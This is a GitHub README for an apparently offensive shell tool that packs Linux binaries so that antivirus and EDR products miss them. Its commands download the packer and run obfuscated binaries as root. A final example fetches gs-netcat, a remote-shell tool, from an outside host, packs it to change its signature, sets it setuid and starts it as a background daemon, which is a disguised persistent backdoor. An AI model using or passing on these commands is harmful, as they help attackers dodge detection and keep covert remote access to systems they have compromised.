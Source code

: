 
## A shell script for Linux that obfuscates + encrypts + packs any binary.

- Obfuscates any ELF binary or script
- AV/EDR death: Morphing + different signature every time
- 100% in-memory. No temporary files.
- Not soiling the filesystem
- Can double or triple encrypt the same binary
- Resulting binary is heavily obfuscated (`string` shows garbage)
- Living off the Land: /bin/sh + perl + openssl
- Architecture agnostic: Works on x86_64, aarch64, arm7, mips, ...

Download:
```shell
curl -SsfL https://github.com/hackerschoice/bincrypter/raw/refs/heads/main/bincrypter.sh -o bincrypter.sh
chmod +x bincrypter.sh
```

Usage:
```shell
cp /usr/bin/id id
./bincrypter.sh id
Compressed: 68552 --> 24176 [35%]

./id
uid=0(root) gid=0(root) groups=0(root)
```

Set a custom PASSWORD (optionally):
```shell
cp /usr/bin/id id
./bincrypter.sh id foobar
Compressed: 68552 --> 23860 [34%]

./id
Enter Password: foobar
uid=0(root) gid=0(root) groups=0(root)
```

Real world example (install gs-netcat with a different signature):
```shell
curl -SsfL https://gsocket.io/bin/gs-netcat_mini-linux-$(uname -m) | ./bincrypter.sh - >gsnc
chmod +s gsnc
GS_ARGS="-ilD -s ChangeMe" ./gsnc
```



